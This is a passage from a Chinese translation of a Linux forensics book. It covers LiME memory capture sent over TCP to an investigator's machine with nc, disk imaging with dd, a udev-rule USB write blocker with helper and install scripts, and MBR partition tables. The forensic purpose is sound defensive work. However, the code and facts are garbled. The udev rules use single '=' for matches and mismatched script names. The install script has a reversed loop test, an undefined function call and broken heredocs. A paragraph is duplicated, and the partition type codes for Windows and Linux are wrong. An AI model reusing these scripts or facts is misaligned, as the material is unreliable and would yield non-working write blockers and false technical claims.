
运行 `lime` 的通用格式为 `sudo insmod lime.ko "path=<path> format=<format>"`。此命令安装（或插入）内核模块。由于明显的原因，此命令需要 root 权限。注意我给 `LIME` 的参数加了引号。这是你在大多数 Linux 版本中需要的操作。如果这对你无效，请尝试去掉引号。

要转储 RAM，将正确的 `LiME` 模块复制到你的响应驱动器或其他介质（永远不要用目标硬盘！）。在目标机器上执行 `sudo insmod <kernel version>.ko "path=tcp:<port number> format=lime"` 以设置监听器，它将 RAM 转储给任何连接它的人。注意 `LiME` 支持 UDP 等其他协议，但我建议你坚持使用 TCP。在安装 `LiME` 之前运行 `uname -a` 不是个坏主意，可以双检确保使用的是正确的内核版本。在目标系统上安装 `LiME` 的命令如图 3.13 所示。



图 3.13
在目标系统上安装 `LiME`。注意在安装 `LiME` 之前已运行 `uname -a`，以提醒调查人员应该使用哪个版本的 `LiME`。

在取证工作站上运行 `nc {subject IP} {port used by LiME} > {filename}`，即 `nc 192.168.56.101 8888 > ram.lime`，将连接到 `LiME` 监听器并通过网络发送 RAM 转储。一旦转储完成，`LiME` 将从目标系统上卸载模块。接收到的 RAM 转储的开头如图 3.14 所示。注意文件头是“EMil”，即 `LiME` 的倒写。



图 3.14
`LiME` 格式的 RAM 转储文件。注意头部为 "EMIL" 或 `LiME` 的倒写。

### 总结

在本章中，我们讨论了多种可以在不将系统离线的情况下从系统中收集技巧。这包括收集系统内存镜像以供以后离线分析。分析此镜像将在本书后续部分讨论（第 8 章：内存分析）。在下一章中，我们将转向传统的死机分析，这需要我们关闭目标系统。

### 第 4 章

### 创建镜像

本章包含的信息：

- 关闭系统
- 镜像格式
- 使用 dd
- 硬件写保护
- 软件写保护
- udev 规则
- Linux 发行版
- 从虚拟机创建镜像
- 从物理设备创建镜像

### 关闭系统

我们终于准备好开始死机分析了。我们现在进展到图 4.1 所示的高级流程的下一步。



图 4.1
高级应急响应流程。

当你准备关闭系统进行镜像时，你面临着是正常关闭还是拔掉插头的选择。考虑到许多因素，这没有标准答案。

### 正常关闭

正常关机在理论上应该给你留下一个干净的文件系统。当然，这假设在感染恶意软件的系统中这是可能的。我发现不使用正常关闭的主要可能是恶意软件可能会清理自己、破坏证据，甚至更糟破坏其他信息。考虑到目标系统中可能存在的现代文件系统，干净的文件系统并不像以前那样关键。

### 拔掉电源

如果我们简单切断目标系统的电源，文件系统可能不干净。正如之前提到的，为了减少处理极脏文件系统（缓存中有大量等待的文件操作）的情况，你可以在拔掉插头之前运行 `sync` 命令。总有一种可能是攻击者修改了 `sync` 程序，但在他们确实这么做的极少数情况下，你的现场分析可能会揭示这一点。

这种方法最大的优点是恶意软件没有机会反应。鉴于你在现场分析期间运行脚本收集的信息以及你转储的内存镜像，拔掉插头不太可能丢失太多信息。如果你怀疑有恶意软件感染，在大多数情况下这是你的最佳选择。

原始镜像（raw image）无非是一个大文件，其中前 512 字节是 LBA0，接下来的 512 字节是 LBA1，依此类推。

由于原始格式在本质上与存储在介质上的内容完全相同，因此有许多标准工具可以对其进行操作。由于由于原因以及其他原因，原始格式非常流行，并受到了每种取证工具的支持。由于原始镜像的大小与它们代表的介质大小相同，因此它们通常非常大。

有些调查人员喜欢压缩原始镜像。事实上，某些取证工具可以对压缩镜像进行操作。如果你选择使用压缩镜像，需要记住的一点是，这可能会导致许多常用取证任务（如搜索）的性能下降。

### 嵌入元数据的私有格式

`EnCase` 是一种被广泛使用的专有取证工具。它在关注 Windows 系统的调查员中尤为流行。`EnCase` 文件格式由头部（header）、每 32 字节（64 扇区）带有校验和的原始扇区以及尾部（footer）组成。头部包含调查员、获取日期等元数据，并以校验和结束。尾部包含介质镜像的 MD5 校验和。

`EnCase` 文件格式支持压缩。压缩是在块级进行的，这使得搜索比其他情况下更快。此的原因是，大多数搜索是针对特定类型的文件进行的，而块（扇区）起始的文件头被用于确定文件类型。

## 元数据存储在独立文件中私有格式

在原始格式和某种私有格式之间的折中方案是使用多个文件来存储镜像。通常，一个文件是原始镜像，另一个文件以专有方式存储元数据。许多镜像工具都提供了这种选择。

### 哈希值存储在独立文件中的原始格式

在我看来，最好的选项是以原始格式获取镜像，并将哈希值单独存储。这允许镜像与所有可用的取证软件包配合，并为你的工具箱添加了 Linux 系统工具。哈希值允许你证明在调查过程中维护了镜像的完整性。

在一个完美的世界里，你只需要创建一个磁盘镜像并为整个镜像计算一个哈希值，然后就结束了。然而，我们并不生活在一个完美的世界里。因此，我建议你在计算整体哈希值的同时，也对镜像的分块进行哈希处理。

给出这一建议有几个原因。首先，在工作时定期重新计算哈希值是一个好主意，以验证你没有更改镜像。如果镜像很大，与对小块进行哈希处理相比，计算整体哈希值可能非常耗时。其次，你可能会遇到损坏的介质。某些区域每次读取的结果可能不同。如果哈希值不匹配，丢弃这些受损区域的数据比丢弃整个磁盘镜像要好得多。通常，本章将讨论的某些工具会为你完成这些哈希计算工作。

### 使用 DD

所有的 Linux 系统都带有一个名为 `dd` 的位移动程序。该实用程序比 Linux 早了几年。它最初的用途是用于在 ASCII（美国标准信息交换符号代码）和 EBCDIC（扩展二进制编码数字交换）之间转换。对于不熟悉 EBCDIC 的人来说，它是一种主要由 IBM 主机使用的编码方式。

除了转换能力外，`dd` 还用于将数据从一个地方推送到另一个地方。数据以块的形式复制，默认块大小为 512 字节。`dd` 最基本的用法是 `dd if=<input file> of=<output file> bs=<block size>`。在 Linux 中，万物皆文件，如果输入文件代表一个设备，则输出文件将是一个原始镜像。

例如，`dd if=/dev/sda of=sda.img bs=512` 可以创建系统上第一个驱动器的原始镜像。我指出，你也可以通过对应于单个分区的设备文件（如 `/dev/sda1`、`dev/sdb2` 等）分别对分区进行镜像。我建议你将整个磁盘作为一个单元进行镜像。

### 块大小是否有影响？

在工作时，定期重新计算哈希值是一个好主意，以验证你没有更改镜像。如果镜像很大，与对小块进行哈希处理相比，计算整体哈希值可能非常耗时。其次，你可能会遇到损坏的介质。某些区域每次读取的结果可能不同。如果哈希值不匹配，丢弃这些受损区域的数据比丢弃整个磁盘镜像要好得多。通常，本章将讨论的某些工具会为你完成这些哈希计算工作。

### 软件写保护

就像硬件路由器实际上是运行软件路由器的漂亮盒子（通常运行在 Linux 上），硬件写保护器几乎总是运行写保护软件的小设备。Windows 系统有几种商业选项。自然，大多数 Linux 选项都是免费开源的。

有一个内核补丁可以自动挂载块设备。你也可以在你喜爱的脚本语言中进行设置。接下来我将描述一种使用 udev 规则阻止任何内容的简单方法。

### Udev 规则

`Udev` 规则是 Linux 系统上控制设备处理的新方式。通过使用下面提供的 `udev` 规则，可以创建一个“魔法 USB 集线器”，它可以根据我们的规则自动挂载从主流连接的任何块设备。

Linux 自带了一套标准的 `udev` 规则。管理员可以通过向 `/etc/udev/rules.d` 目录添加自己的规则来定制系统。像许多系统脚本（即启动脚本）一样，这些规则的执行顺序是由文件名决定的。标准做法是以数字开头文件名，以决定其加载时机。

当运行下方文件中的规则时，挂载文件系统所需的所有信息尚不可用。因此，规则分两个阶段生成所有其他脚本。该文件应命名为 `/etc/udev/rules.d/10-protectedmount.rules`。注意，供应商和产品标识符将通过安装脚本设置以匹配你的设备。该安装脚本将在本章稍后介绍。

```
```


# udev 规则示例

```
ACTION="add", SUBSYSTEM="block", KERNEL="sd[1-9]", ATTRS(idVendor)="1a40",
ATTR(idProduct)="0101", ENV(PHIL_MOUNT)="1", ENV(PHIL_DEV)="%k",
RUN=/etc/udev/scripts/protromount.sh %k %"

ACTION="remove", SUBSYSTEM="block", KERNEL="sd?[1-9]",
ATTR(idVendor)="1a40", ATTRS(idProduct)="0101", ENV(PHIL_UNMOUNT)="1",
RUN=/etc/udev/scripts/protromount.sh %k %"

ENV(PHIL_MOUNT)="1", ENV(UDEVIS_AUTOMOUNT_HINT)="never", RUN=/etc/udev/scripts/protromount2-%n.sh"

ENV(PHIL_MOUNT)="1", ENV(UDEVIS_PRESENTATION_HINT)="0",
ENV(UDEVIS_AUTOMOUNT_HINT)="always"

ENV(PHIL_UNMOUNT)="1", RUN=/etc/udev/scripts/protromount4-%n.sh"
```

## 规则说明

`udev` 规则的一般格式是用逗号分隔的一系列语句。第一个语句（即带有双等号 `"==="` 的语句）是匹配语句。如果所有这些语句都匹配，则执行剩余的语句。这些语句主要设置环境变量并将脚本添加到待执行列表中。任何此类脚本都应该快速运行，以避免拖慢系统。

第一条规则可以分为匹配语句和针对设备的语句。匹配语句是 `ACTION="add", SUBS="block", KERNEL="sd?[1-9]", ATTRS{idVendor}="1a40", ATTRS{idProduct}="0101"`。当添加新设备时；它是一个块设备；它的名称为 `/dev/sdx`（其中 X 是字母，n 是分区号），或者其父级设备的 USB 供应商和分区 ID 匹配。如果你只想匹配设备的属性而不是父级设备的属性，请使用 `ATTR [attributeName]` 而不是 `ATTRS{attributeName}`。通过使用 `ATTRS`，我们确保该规则将与连接到集线器的每个设备匹配。第一条规则中包含运行设备命令的部分是 `ENV{PHIL_MOUNT}1", ENV{PHIL_DEV}="%k", RUN+=/etc/udev/scripts/protmount.sh %k %"`。这些语句将环境变量 `PHIL_MOUNT` 设置为 1，为内核名称设置另一个环境变量 `PHIL_DEV`，并将 `/etc/udev/scripts/protmount.sh` 添加到运行列表，以内核名称和分区号作为参数。

第二条规则与第一条非常相似，但它是在设备移除时匹配的。它设置环境变量 `PHIL_UNMOUNT` 为 1，并将 `/etc/udev/scripts/protmount.sh` 添加到运行列表（再次以内核名称和分区号作为参数）。`protmount3.sh` 和 `protmount4.sh` 在设备移除后清理。

下一条规则 `ENV{PHIL_MOUNT}1", ENV{UDIS_AUTOMOUNT_HINT="never", RUN+=/etc/udev/scripts/protmount2.sh}` 在操作系统尝试挂载文件系统之前运行。如果 `PHIL_MOUNT` 变量设置为 1，我们告诉操作系统处理显示的设备并自动挂载文件系统（因为它将只读挂载），并将 `protmount2.sh` 添加到执行列表。如果 `PHIL_MOUNT` 未设置为 1，则让操作系统以标准方式处理设备。最后一条规则在 `PHIL_UNMOUNT` 变量被设置时导致 `protmount4.sh`。

## 脚本说明

现在我们转向脚本。`protmount2.sh` 和 `protmount3.sh` 脚本分别用于创建 `protmount2.sh` 和 `protmount4.sh`。如前所述，原因是挂载和卸载文件系统所需的信息并非同时可用。`protmount.sh` 如下：

```
#!/bin/bash

echo "!/bin/bash" >> /etc/udev/scripts/protmount2.sh

echo "mkdir /media/$1" >> /etc/udev/scripts/protmount2.sh

echo "chmod 777 /media/$1" >> /etc/udev/scripts/protmount2.sh
```

该脚本输出一系列命令。第二行创建一个目录 `/media/{kernel name}`（例如 `/media/db2`）。第三行打开目录权限。第四行在新创建的目录以只读挂载文件系统。最后一行使 `protmount2.sh` 可执行。`protmount3.sh` 脚本类似，但它创建一个清理脚本。清理脚本是 `protmount4.sh`。

```bash
#!/bin/bash

echo "!/bin/bash" >> /etc/udev/scripts/protmount4.sh

echo "mount /dev/$1" >> /etc/udev/scripts/protmount4.sh

echo "rm /media/$1" >> /etc/udev/scripts/protmount4.sh

echo "chmod +x" /etc/udev/scripts/protmount4.sh
```

为此系统创建了一个安装脚本。该脚本接受供应商和产品 ID 作为必需参数。你可能好奇为什么脚本里有这些。如果你使用 USB 3.0 集线器（推荐），它实际上显示为一个 USB 2.0 集线器，另一个是 USB 3.0 集线器。这两个设备将具有共同供应商 ID，但产品 ID 不同。

```bash
#!/bin/bash

# "The Deck" 的安装脚本

# 此脚本将安装 udev 规则，将 USB 集线器
# 转换为魔法集线器。连接到魔法集线器的每个块设备
# 将以只读方式自动挂载到 /media 目录下。
# 虽然它是为 "The Deck" 设计的，但它可能适用于
# 现代 Linux 发行版。此软件按现状提供，
# 不提供任何形式或暗示的保证。风险自担。
# 作者不对使用此软件引起的任何问题负责。
# 初始版本由 Phil Polstra 博士于 2012 年 8 月创建
# 版本 1.1 于 2015 年 3 月创建
# 新版本增加了对第二个 PID 的支持，这在使用
# USB 3.0 集线器时是需要的，因为它们实际上显示为两个集线器

unset VID
unset PID
unset PID2
```

```bash
function usage {
echo "usage: sudo ${basename $0} -vid 05e3 -pid 0608 [-pid2 0610]"
Bugs email: "DrPhil at polstra.org"
必需参数:
-vid <USB 集线器的供应商 ID>
-pid <USB 集线器的产品 ID>
可选参数:
-pid2 <USB 3.0 集线器的第二个产品 ID>
EOF
exit
}
function createRule {
cat > /etc/udev/rules.d/10-protected.rules <<EOF
ACTION="add", SUBSYSTEM="block", KERNEL="sd[1-9]",
ATTRS(idvendor)=\${VID}", ATTRS(idProduct)=\${PID}", ENV(PHIL_MOUNT)="1",
ENV(PHIL_DEV)="%k", RUN+=/etc/udev/scripts/protmount.sh k %n

ACTION="remove", SUBSYSTEM="block", KERNEL="sd[1-9]",
ATTRS(idvendor)=\${VID}", ATTRS(idProduct)=\${PID}", ENV(PHIL_UNMOUNT)="1",
RUN+=/etc/udev/scripts/protmount3.sh k %n

ENV(PHIL_MOUNT)="1", ENV(UDEIS_PRESENTATION_HINT)="1",
ENV(UDIS_AUTOMOUNT_HINT)="never", RUN+=/etc/udev/scripts/protmount2-n.sh

ENV(PHIL_MOUNT)="1", ENV(UDEIS_PRESENTATION_HINT)="0",
ENV(UDEIS_AUTOMOUNT_HINT)="always"

ENV(PHIL_MOUNT)="1", RUN+=/etc/udev/scripts/protmount4-n.sh
EOF
if [ "$PID2" = "" ]; then
```


```bash
cat >> /etc/udev/rules.d/10-protected.rules <<EOF

ACTION="add", SUBSYSTEM="block", KERNEL="sd[1-9]",

ATTRS(idvendor)=\${VID}", ATTRS(idProduct)=\${PID}", ENV(PHIL_MOUNT)="1",

ENV(PHIL_DEV)="%k", RUN+=/etc/udev/scripts/protmount.sh k %n

ACTION="remove", SUBSYSTEM="block", KERNEL="sd[1-9]",

ATTRS(idvendor)=\${VID}", ATTRS(idProduct)=\${PID}", ENV(PHIL_UNMOUNT)="1",

RUN+=/etc/udev/scripts/protmount3.sh k %n

ENV(PHIL_MOUNT)="1", ENV(UDEIS_PRESENTATION_HINT)="1",

ENV(UDIS_AUTOMOUNT_HINT)="never", RUN+=/etc/udev/scripts/protmount2-n.sh

ENV(PHIL_MOUNT)="1", ENV(UDEIS_PRESENTATION_HINT)="0",

ENV(UDEIS_AUTOMOUNT_HINT)="always"

ENV(PHIL_MOUNT)="1", RUN+=/etc/udev/scripts/protmount4-n.sh

EOF

fi

fi
```

```bash
function copyCopies {
if [ -d "/etc/udev/scripts" ]; then
```

```bash
mkdir /etc/udev/scripts
fi

cp ./protmount*.sh /etc/udev/scripts/.
}
```

### parse commandline options

```bash
while [ -z "$1" ]; do
  case $1 in
    -h|--help)
      usage
      ;;
    -vid)
      VID="$2"
      ;;
    -pid)
      PID="$2"
      ;;
    -pid2)
      PID2="$2"
      ;;
  esac
  shift # consume command line arguments 1 at a time
done
```

### now actually do something

```bash
createRule
copyScripts
```


该脚本非常直观。它以常见的 she-bang 开始，然后取消了几个环境变量。我们使用了一个典型的用法函数（usage function），然后定义了几个创建和拷贝文件的函数。最后，这些函数在脚本末尾运行。

# 现场 Linux 发行版

创建硬盘镜像的首选方法将其从目标系统中移除。然而，这并不总是可行的。例如，某些笔记本电脑（包括我正在用来写这本书的这台）必须拆卸才能取出硬盘，因为它们没有用于此目的的拆卸面板。在这种情况下，在取证模式（forensics mode）启动现场 Linux 发行版可能是最简单的选择。

有两种可用选项。大多数现场 Linux 发行版都能工作，但使用像 SIFT 这样面向取证的发行版总没有坏处。你可以将其安装到自己的 USB 驱动器中，或者使用你存储已知二进制文件的同一个 USB 驱动器。正如我在书中前面提到的，如果你这样做，你需要对驱动器进行多个分区格式化。第一个分区必须是 FAT 格式才能启动，而包含二进制文件的分区必须格式化为 ext2、ext3 或 ext4 以保留权限。

有些人喜欢在取证工作站上使用现场 Linux 发行版。我对此的主要意见是，运行现场 Linux 发行版时性能通常很差，因为所有内容都在内存中运行。如果你只是为了写保护而运行现场 Linux，我建议你直接使用我在本章之前描述的基于 udev 规则的阻塞方法。

### 从虚拟机创建镜像

虽然你在专业工作中可能不需要从虚拟机创建镜像，但如果你正在练习和/或跟随书中的某些示例，你可能希望这样做。如果你只需要一个原始镜像（raw image），可以使用 VirtualBox 自带的工具来创建原始镜像。

使用 VirtualBox 工具的缺点是你无法获得其提供的哈希值（hashes）。另一个缺点是你无法练习为物理设备制作镜像所需的工具。在 Linux 宿主机上创建镜像的命令是 `vboxmanage clonehd <virtual disk image file> output raw image file-RAW`。

如果你在 Linux 上托管虚拟机，仍然可以使用 `defdisk` 等标准工具。这是因为 Linux 足够智能，可以将此虚拟镜像文件视为真实设备。可以通过运行命令 `fdisk <virtual disk image file>` 来验证这一点。针对虚拟机硬盘运行此命令的结果如图 4.3 所示。



图 4.3

# 从物理驱动器创建镜像

如果介质已被移除，从物理介质创建镜像是一个简单的过程。如果你有商业写保护器，可以使用。我个人更倾向于使用在本章之前描述的基于 udev 规则的系统。无论你使用什么种写保护方法，我都强烈建议你使用 USB 3.0 设备。

我的个人配置由一个 Sabrent USB 3.0 集线器（型号 HB-UM43，它通过我的 udev 规则系统提供写保护）和一个 Sabrent USB 3.0 SATA 硬盘底（型号 DS-UBLK）组成。这种组合可以从多个供应商处以 40 美元购买。我的配置如图 4.4 所示。


图 4.4

在本章中我们讨论了如何创建磁盘镜像。这包含了如 dcfldd 等镜像工具、软件和硬件写保护器、技术以及廉价的硬件选项。在下一章中，我们将深入研究挂载这些镜像的主题，以便开始静态（文件系统）分析。

### 第 5 章

### 挂载镜像

本章信息：

- 基于主引导记录（MBR）的分区
- 扩展分区（Extended Partitions）
- GUID 分区表（GPT）分区
- 挂载分区
- 使用 Python 自动化挂载过程

### 分区基础

早期个人电脑在硬盘上有一个单个文件系统是很常见的现象。当然，它们的容量以单数字兆字节为单位衡量也很常见。一旦硬盘开始变大，人们就开始将它们组织成分区。

最初最多可以有四个分区。当这不再够用时，开发出了一种名为“扩展分区”的并不高明（ineloquent）的解决方案，以便在硬盘上创建四个以上的分区。在开发更好的解决方案出现之前，人们在几十年里一直忍受着这种拙劣的权宜之（kludge）。本章将详细讨论所有这些分区系统，从最旧的开始。

硬盘由读写头数量、磁柱体（cylinders）和扇区（sectors）来描述。每个盘片都有数据圆圈，称为磁道（tracks）。当你将多个圆圈堆叠时，它们看起来就像一个圆柱体，这正是我们所说的物理上堆叠的磁道。即使只有一个盘片，盘片的每侧也一个磁道。磁道被分为扇区。磁盘几何结构如图 5.1 所示。


图 5.1 磁盘几何结构。在书中讨论的一些数据结构中你会看到磁柱体、头部和扇区的项。大多数现代介质使用逻辑寻址，但仍发现这些早期遗迹。是否使用这些值是另一回事。

# 主引导记录分区

拥有多个分区的解决方法是在硬盘第一个扇区创建一个主引导记录（MBR）。这种方法开发于 80 年代。主引导记录中允许最多有四个分区。这些分区中最多有一个可以标记为可启动。MBR 的整体格式如 5.1 所示。

# 表 5.1. 主引导记录格式

| 偏移 | 长度 | 项目 |
| :--- | :--- | :--- |
| 0x00 | 446 (0BE) | 引导代码 |
| 446 (0BE) | 16 (10) | 第一个分区 |
| 462 (0CE) | 16 (10) | 第二个分区 |
| 478 (0DE) | 16 (10) | 第三个分区 |
| 494 (0EE) | 16 (10) | 第四个分区 |
| 510 (0FE) | 2 (2) | 签名 0x55 |

MBR 中的每个分区项包含表 5.2 所示的信息。

### 表 5.2. 分区项

| 偏移 | 长度 | 项目 |
| :--- | :--- | :--- |
| 0x00 | 1 (01) | 激活标志 (0x80 = 可启动) |
| 0x01 | 1 (01) | 起始头部 |
| 0x02 | 1 (01) | 起始扇区 (0-5 位); 磁柱体高位 (6-7 位) |
| 0x03 | 1 (01) | 起始磁柱体低 8 位 |
| 0x04 | 1 (01) | 分区类型代码 (0x83 = Linux) |
| 0x05 | 1 (01) | 结束头部 |
| 0x06 | 1 (01) | 结束扇区 (0-5 位); 磁柱体高位 (6-7 位) |
| 0x07 | 1 (01) | 结束磁柱体低 8 位 |
| 0x08 | 4 (04) | 分区前的扇区 (小端序) |
| 0x0C | 4 (04) | 分区内的扇区 |

让我们逐一讨论分区项中的这些字段。第一个项是激活标志，0x80 表示激活，其他（通常为 0x00）被解释为非激活。在主引导记录中，激活意味着可启动。由于明显的原因，最多有一个分区可以启动。这并不意味着你不能启动多个操作系统，而是你必须启动到某种选择程序来实现。

下一个项是分区的起始头部。后面是起始扇区和磁柱体。因为磁柱体的数量可能超过 255，且单个磁道内不太会有这么多扇区，因此存储扇区的字节的高两个位是磁柱体的高两个位。该系统允许每个磁道最多 64 个扇区和 1024 个磁柱体。注意，在假设扇区为 512 字节的情况下，存储分区必须在磁盘的前 8 GB 内开始。

起始地址后面的项是分区类型代码。对于 Windows 系统，此代码用作 0x83 分区类型，任何支持的文件系统都可以安装在分区上。分区类型 0x82 用于 Linux 分区。

分区结束的磁柱体/头部/扇区地址位于分区类型之后。使用的格式与分区起始地址相同。分区前的扇区数和总扇数占据分区项的最后两个位置。注意，这些都是 32 位值，允许支持高达 2TB（2048GB）的设备。大多数现代设备使用逻辑块寻址（LBA），磁柱体/头部/扇区地址基本上被忽略了。

### 扩展分区

当四个分区不再够用时，发明了一个新系统。该系统由在 MBR 的四个可用槽位中创建一个或多个扩展分区组成。常见的扩展分区类型是 0x05 和 0x85，前者被 Windows 和 Linux 使用，后者仅被 Linux 使用。每个扩展分区变成一个具有自己的 MBR 的逻辑驱动器。通常只使用扩展分区 MBR 中的前两个槽位。

扩展分区 MBR 中分区项的地址相对于扩展分区的起始位置（毕竟它是自己的逻辑驱动器）。扩展分区中的逻辑分区也可以扩展。换句话说，扩展分区可以嵌套，从而允许创建八个以上的分区。在嵌套扩展分区的情况下，最后一个分区由该扩展分区 MBR 第二个槽位中的空项来指示。嵌套扩展分区如图 5.2 所示。



图 5.2
嵌套扩展分区。

### GUID 分区

创建分区的方法并非唯一显示其过时的特征。基本输入输出系统（BIOS）启动过程也相当陈旧。在 BIOS 启动过程中，一台超现代的 64 位计算机不会以 64 位模式启动。它甚至不会以 32 位模式启动。CPU 被强制回退到 16 位兼容模式。事实上，如果你检查 MBR 中的引导代码，你会发现它是 16 位的机器代码。

